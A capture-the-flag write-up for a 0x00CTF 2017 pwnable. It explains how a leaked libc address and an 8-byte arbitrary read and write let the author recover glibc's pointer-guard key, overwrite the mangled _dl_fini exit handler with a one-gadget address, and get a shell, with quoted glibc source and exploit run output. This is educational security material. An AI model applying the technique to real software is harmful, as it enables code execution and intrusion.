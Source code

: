 #left - 0x00CTF 2017

First at all execute `file` command on the binary (the libc is already provided by the organizers of the CTF)
```bash
$ file guessme
guessme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=92b1d84ee22b7c92dc80fac971bdc7f6cd0e3672, stripped
```

And [checksec](https://github.com/slimm609/checksec.sh)
```bash
$ ./checksec --file ../pwning/0x00CTF/left/left
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	../pwning/0x00CTF/left/left
```

This was a 250 pts pwnable challange, the hardest of the competition. Unfortunately i solved this challenge only two hours later the end of the competition. The challange was funny, in a nutshell:
1. The binary prints the address of `printf` function
2. We can leak 8 bytes from any memory location
3. We can write 8 bytes wherever we want
4. The binary calls `exit`.

![image](binary.png)

I tried really a lot of exploits: 
1. overwrite an entry in the got. Nope, full RELRO :P
2. use the `atexit` pointers. Nope, read only
3. use the `__free_hook` pointers. The `exit` function in certain cases calls the `free`, so i tried for few hours to follow this strategy but without success. 

I was becoming crazy, but with my teammate @[ret2libc](https://github.com/ret2libc) we had a look at the libc code and found another way to exploit it. And i'll try to explain now what happened. 

The `exit` function calls `__run_exit_handlers` function, and this is its implementation

```C
/* Call all functions registered with `atexit' and `on_exit',
   in the reverse of the order in which they were registered
   perform stdio cleanup, and terminate program execution with STATUS.  */
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    __call_tls_dtors ();

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (*listp != NULL)
    {
      struct exit_function_list *cur = *listp;

      while (cur->idx > 0)
	{
	  const struct exit_function *const f =
	    &cur->fns[--cur->idx];
	  switch (f->flavor)
	    {
	      void (*atfct) (void);
	      void (*onfct) (int status, void *arg);
	      void (*cxafct) (void *arg, int status);

	    case ef_free:
	    case ef_us:
	      break;
	    case ef_on:
	      onfct = f->func.on.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (onfct);
#endif
	      onfct (status, f->func.on.arg);
	      break;
	    case ef_at:
	      atfct = f->func.at;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (atfct);
#endif
	      atfct ();
	      break;
	    case ef_cxa:
	      cxafct = f->func.cxa.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (cxafct);
#endif
	      cxafct (f->func.cxa.arg, status);
	      break;
	    }
	}

      *listp = cur->next;
      if (*listp != NULL)
	/* Don't free the last element in the chain, this is the statically
	   allocate element.  */
	free (cur);
    }

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}
```

A parameter of the `__run_exit_handlers` is a `struct exit_function_list **listp`. The libc initializes a static struct `initial` 

```C
static struct exit_function_list initial;
struct exit_function_list *__exit_funcs = &initial;
```

then the libc uses these two functions to add an internal `atexit` function to be called when the program ends

```
int
attribute_hidden
__internal_atexit (void (*func) (void *), void *arg, void *d,
		   struct exit_function_list **listp)
{
  struct exit_function *new = __new_exitfn (listp);

  if (new == NULL)
    return -1;

#ifdef PTR_MANGLE
  PTR_MANGLE (func);
#endif
  new->func.cxa.fn = (void (*) (void *, int)) func;
  new->func.cxa.arg = arg;
  new->func.cxa.dso_handle = d;
  atomic_write_barrier ();
  new->flavor = ef_cxa;
  return 0;
}

int
__cxa_atexit (void (*func) (void *), void *arg, void *d)
{
  return __internal_atexit (func, arg, d, &__exit_funcs);
}
libc_hidden_def (__cxa_atexit)
```
The static struct `__exit_funcs` (i.e. `initial`) is extremely important, because if we can write an address of a function to be called here we would win :)
Note that the pointer added to the list is encrypted using a `ror` and `xor` with a random key. The value is then decrypted at run time.
This is the implementation of `PTR_MANGLE` and `PTR_DEMANGLE`

```C
# ifdef __ASSEMBLER__
#  define PTR_MANGLE(reg)	xorl %gs:POINTER_GUARD, reg;		      \
				roll $9, reg
#  define PTR_DEMANGLE(reg)	rorl $9, reg;				      \
				xorl %gs:POINTER_GUARD, reg
# else
#  define PTR_MANGLE(var)	asm ("xorl %%gs:%c2, %0\n"		      \
				     "roll $9, %0"			      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
#  define PTR_DEMANGLE(var)	asm ("rorl $9, %0\n"			      \
				     "xorl %%gs:%c2, %0"		      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
# endif
```

Now have a look at the `exit` implementation

```C

void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true);
}
libc_hidden_def (exit)
```

It uses `&__exit_funcs`, i.e `&initial`! In the file `libc-start.c` you can figure out that it uses the function `__cxa_atexit` to add a function: `_dl_fini`: 

```C
/* Register the destructor of the dynamic linker if there is any.  */
  if (__glibc_likely (rtld_fini != NULL))
    __cxa_atexit ((void (*) (void *)) rtld_fini, NULL, NULL);

#ifndef SHARED
  /* Call the initializer of the libc.  This is only needed here if we
     are compiling for the static library in which case we haven't
     run the constructors in `_dl_start_user'.  */
  __libc_init_first (argc, argv, __environ);

  /* Register the destructor of the program, if any.  */
  if (fini)
    __cxa_atexit ((void (*) (void *)) fini, NULL, NULL);
``` 

What we can do is: 
0. We have the leak of the libc location. We can find the address of the magic gadget, the address of `initial` structure and everithing we need
1. leak the value of the encrypted pointer `_dl_fini_enc`
2. get the secret key (working with 64 bits) with  `rol(_dl_fini_enc, 0x11) ^ _dl_fini_address`.
3. overwrite the pointer `_dl_fini_enc` with the encrypted magic gadget address calculated with `rol((magic_addr) ^ (key), 0x11, 64 )`
4. WIN!

```bash
$ python exploit.py 159.203.116.12 7777
[+] libc address: 0x7fa70c2f0000
[+] key: 0xab85f3272361ce8eL
[+] writing at: 0x7fa70c6b5c58
[+] write value: 0x19005ea539c9570bL
[+] interactive

id
uid=1000(left) gid=1000(left) groups=1000(left)
cat /home/left/flag.txt
0x00CTF{exPL0it1ng__EXit_FUNkz_LikE_4b0sZ!}
```

Find the binary [here](left) (and the related [libc](libc-2.23.so)), the full exploit [here](exploit.py)! I really enjoyed this challenge! 
